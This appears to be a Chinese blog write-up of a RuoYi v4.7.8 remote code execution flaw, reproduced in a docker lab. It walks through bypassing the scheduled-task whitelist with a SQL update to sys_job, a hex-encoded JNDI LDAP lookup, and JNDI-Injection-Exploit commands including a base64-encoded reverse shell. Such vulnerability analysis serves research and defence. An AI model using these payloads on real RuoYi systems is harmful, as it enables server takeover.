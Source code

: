 ```yaml
---
title: RuoYi_v4.7.8_RCE
date: 2024-04-10 18:53:00 +0800
img_path: /
categories: [肾透, 漏洞利用]
tags: [肾透, 漏洞利用]     

---
```


# RuoYi_v4.7.8_RCE

## 1 漏洞简介

RuoYi是一个后台管理系统，基于经典技术组合（Spring Boot、Apache Shiro、MyBatis、Thymeleaf）主要目的让开发者注重专注业务，降低技术难度，从而节省人力成本，缩短项目周期，提高软件安全质量。

后台定时任务可通过`genTableServiceImpl.createTable(sql)`执行`sql`语句修改表内容，通过修改`sys_job`定时任务表的内容从而将恶意的定时任务写入从而实现`JNDI`注入`RCE`。

## 2 影响范围

RuoYi<=4.7.8

## 3 环境搭建

### 3.1 导入docker image

```bash
docker load -i polarvul_ruoyi_4.7.8_rce.tar
```

### 3.2 启动容器

```bash
docker run -d --name ruoyi -p8080:80 ruoyi_4.7.8_rce:polarvul
```

## 4 漏洞分析

在增加定时任务时做了许多判断采用了白+黑的方式防止增加恶意调用的定时任务。

![image-20240408205552296](assets/image-20240408205552296.png)

从`RuoYi v4.7.3` 开始添加定时任务时采用了白名单，只能调用`com.ruoyi`包下的类。

![image-20240408205330301](assets/image-20240408205330301.png)

但是对恶意类的过滤仅仅只是在增加定时任务和编辑定时任务时，运行时并没有判断是否为恶意调用。

![image-20240408210157236](assets/image-20240408210157236.png)

并且定时任务的信息其实是储存在数据库中的。

![image-20240408210336402](assets/image-20240408210336402.png)

所以说，如果能够直接修改数据库中的内容，那么绕过了过滤。

在`com.ruoyi.generator.controller.GenController#create`中

![image-20240408210809527](assets/image-20240408210809527.png)

这块直接调用了`genTableService.createTable()`：

![image-20240408211015431](assets/image-20240408211015431.png)

![image-20240408211108830](assets/image-20240408211108830.png)

这里可以执行`sql`语句，并且是在`com.ruoyi`包下的类，所以可以通过这个点修改数据库中`sys_job`表中的内容。

```bash
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target =0x6a617661782e6e............ WHERE job_id = 1;')
```

其中`0x6a61766...`是下方的十六进制，因为创建定时任务时不能存在黑名单中的字符串，采用十六进制形式绕过。

```bash
javax.naming.InitialContext.lookup('ldap://127.0.0.1:1389/deserialCommonsBeanutils1')
```

创建成功：

![image-20240408211752742](assets/image-20240408211752742.png)

点击后面更多操作运行一次后，即可更改`job_id`为1的定时任务为恶意的定时任务。

![image-20240408211955819](assets/image-20240408211955819.png)

定时任务触发JNDI的流程如下：

运行定时任务时进入`/run`路由下的`run`方法

![image-20240410144533083](assets/image-20240410144533083.png)

然后根据`JobId`获取到数据库中的定时任务。

![image-20240410144753059](assets/image-20240410144753059.png)

在`triggerJob()`方法中：

![image-20240410194841005](assets/image-20240410194841005.png)

随后进入`jobScheduled()`方法：

![image-20240410195202833](assets/image-20240410195202833.png)

当来到`JobInvokeUtil`包下的`invokeMethod(SysJob sysJob)`方法时，在该方法中会获取`bean`，`methodName`，`methodParams`。

![image-20240410195457142](assets/image-20240410195457142.png)

随后就进入`invokeMethod(Object bean, String methodName, List<Object[]> methodParams)`，到这里因为各个参数我们都可控所以很明显存在`JNDI`注入漏洞。

```java
        InitialContext initialContext1 = new InitialContext();
        // 使用反射获取 lookup 方法
        Method lookupMethod = InitialContext.class.getMethod("lookup", String.class);
        // 调用 lookup 方法获取远程对象代理
        Object object1 = lookupMethod.invoke(initialContext, "ldap://127.0.0.1:6666/calc");
```

![image-20240410200150718](assets/image-20240410200150718.png)

## 5 漏洞复现

启动恶意的LDAP服务：

```bash
# 弹计算器
java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "calc" -A "127.0.0.1"
```

```bash
# 反弹Shll
java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+Ji.....}|{base64,-d}|{bash,-i}" -A "127.0.0.1"
```

通过定时任务sql注入修改数据库中储存的计划任务：

```java
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target =0x6a617661782e6e............ WHERE job_id = 1;')
```

![image-20240410202746531](assets/image-20240410202746531.png)

执行后即可触发漏洞。

![image-20240410202844076](assets/image-20240410202844076.png)

